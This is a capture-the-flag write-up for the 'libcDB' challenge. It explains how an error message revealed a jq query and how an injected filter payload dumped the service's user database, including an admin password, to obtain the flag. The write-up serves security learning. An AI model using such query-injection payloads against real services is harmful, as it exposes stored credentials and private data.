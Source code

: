 # libcDB - 14 solves

Description:
```
pwning challenges without given libc can be a hussle
i made a libcDB as a service that can help resolve the libc version by symbols and their addresses
i havn't added all libc's yet, but thats enough to test it out

nc libcdb.3k.ctf.to 7777

* test account { Dead:pool }
```

## First looks
When connecting to the provided address, we are given a login prompt and we can enter the credentials from the description resulting in the following prompt:

```
Authenticated {"users":{"username":"Dead","password":"pool"}}

 __    _ _       ____  _____
|  |  |_| |_ ___|    \| __  |
|  |__| | . |  _|  |  | __ -|
|_____|_|___|___|____/|_____|
                         as a service


Type .help for help



>
```

Notice the JSON at the beginning, I tried adding my own JSON, but it only allowed alphanumeric login and password.

`.help` gives us a few options to choose from:
```
.help                   Print this help
.version                Print versions
.search                 Search libcdb
.secret                 Print flag
```

Sadly, we cannot get the flag instantly by just executing the .secret command. And instead returns:
```
not admin
no flag for u
```
The `.version` command gives us some information about what libc's are added to the database:
```
"ubuntu_libc6-dbg_2.4-1ubuntu12.3_amd64"
"ubuntu_libc6-dbg_2.4-1ubuntu12_amd64"
"ubuntu_libc6-i386_2.10.1-0ubuntu15_amd64"
```
### Search

The last feature, `.search` is more of interest and has the following pattern: `.search <*symbol> <*addr> <filter>`.  
An example search is `.search fprintf 0x4b970` which gives us some nice information about the `fprintf` function:

```
> .search fprintf 0x4b970
Found:
        id              6acfaae0398dce58e1857599a274f6d8
        name            ubuntu_libc6-dbg_2.4-1ubuntu12.3_amd64
        symbol          fprintf
        address         0x4b970
Found:
        id              fc1e12693e5762252bc44256d5a72506
        name            ubuntu_libc6-dbg_2.4-1ubuntu12_amd64
        symbol          fprintf
        address         0x4b970
```

However, there is another paramater: `<filter>` and when adding a non-alphanumeric character we get an error:
```
> .search fprintf 0x4b970 "
jq: error: syntax error, unexpected $end, expecting QQSTRING_TEXT or QQSTRING_INTERP_START or QQSTRING_END (Unix shell quoting issues?) at <top-level>, line 1:
. as $maindb | .libcDB[] | select(.symbol=="fprintf") | select(.address|contains("309616")) | ."
jq: error: try .["field"] instead of .field for unusually named fields at <top-level>, line 1:
. as $maindb | .libcDB[] | select(.symbol=="fprintf") | select(.address|contains("309616")) | ."
jq: 2 compile errors
```

This gives us some more information about the application and that it uses `jq`, additionaly we get the complete query.   
After reading a bit about `jq` we can construct our own query.  
By just guessing that the object where the users are stored are in the same `$maindb` (Thanks to the JSON we got when logging in), we can create a query like this: `,{name:.[]|$maindb.users|tostring}` and leak the complete users `db`.  
(Additionally, we could leak the complete db with `,{name:.[]|$maindb|tostring}`, but it's huge).  
Final Payload: `.search fprintf 0x4b970 ,{name:.[]|$maindb.users|tostring}`. Resulting into the users object:
```json
[
    {
        "username": "3k",
        "password": "notaflag"
    },
    {
        "username": "James",
        "password": "Hetfield"
    },
    {
        "username": "Lars",
        "password": "Ulrich"
    },
    {
        "username": "Dead",
        "password": "pool"
    },
    {
        "username": "admin",
        "password": "v3ryL0ngPwC4nTgu3SS0xfff"
    },
    {
        "username": "jim",
        "password": "carrey"
    }
]
```
And so logging in with `admin:v3ryL0ngPwC4nTgu3SS0xfff`   we get the flag by the `.secret` command:  
`3k{jq_is_r3ally_HelpFULL_3af4bcd97f5}`